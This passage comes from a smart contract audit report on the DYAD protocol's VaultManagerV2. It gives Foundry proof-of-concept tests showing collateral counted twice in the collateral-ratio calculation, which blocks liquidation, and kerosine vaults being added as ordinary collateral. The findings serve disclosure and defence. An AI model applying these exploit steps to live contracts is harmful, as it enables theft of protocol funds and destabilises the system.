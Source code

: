 ```js
        vaultManagerV2.mintDyad(id, 1e25, RECEIVER);

        // Protocol considers that User has deposited twice the amount in the collateral ratio calculation
        console.log("CR of position", vaultManagerV2.collatRatio(id)); // 200%

        // Position is not liquidatable even if it is only collateralized at 100%
        vm.expectRevert(IVaultManager.CrTooHigh.selector);
        vm.prank(RECEIVER);
        vaultManagerV2.liquidate(id, id2);

    }
```

**Exploit #2:** The `DeployV2` script calls the licensing tx functions on the kerosine vaults using the `vaultLicenser`:

```js
        vaultLicenser.add(address(unboundedKerosineVault));
        // vaultLicenser.add(address(boundedKerosineVault));
```

This has to be done via the `vaultLicenser` instead of the `kerosineManager` so that the kerosene vault assets would not be taken into account during the price calculation of the kerosine asset.

A user can just call the `VaultManagerV2::add` function with their ID and kerosine vault as parameters. Since, the kerosine vault will be stored inside the `vaults` mappings, some positions can be mostly or entirely collateralized with the kerosine asset, which is not what is intended by the protocol. In fact kerosene is a volatile asset and can cause stability and liquidity issues to the protocol.

Consider the following test:

```js
    function test_addKeroseneAsExoColl() public {
        uint256 id = mintDNft();
        uint256 id2 = mintDNft();

        // Follow script deployment. Weth Vault is licensed in both VaultManager and KerosineManager
        // A user can just add his id and the WethVault in the kerosine mapping and kerosineVault in the vault mapping
        vaultManagerV2.addKerosene(id, address(wethVaultV2));
        vaultManagerV2.add(id, address(unboundedKerosineVault));

        // Assume weth was deposited by other users
        depositV2(weth, id2, address(wethVaultV2), 1e24); //weth 1000 Usd

        // User deposits kerosine using id
        kerosineMock.mint(address(this), 1e20);
        kerosineMock.approve(address(vaultManagerV2), 1e20);
        vaultManagerV2.deposit(id, address(unboundedKerosineVault), 1e20);
        console.log("Kerosine price", unboundedKerosineVault.assetPrice()); //9999

        //Then mint dyad
        vaultManagerV2.mintDyad(id, 1e19, RECEIVER);

        // => Position 150% collateralized with kerosine tokens
        // !! User cannot add kerosine bounded or unbounded vaults in the kerosine mapping in the vault Manager
        // !! and id and weth vault can be added in both kerosene and normal vaults which would make the amount deposited calculated twice in the collateralRatio
    }
```

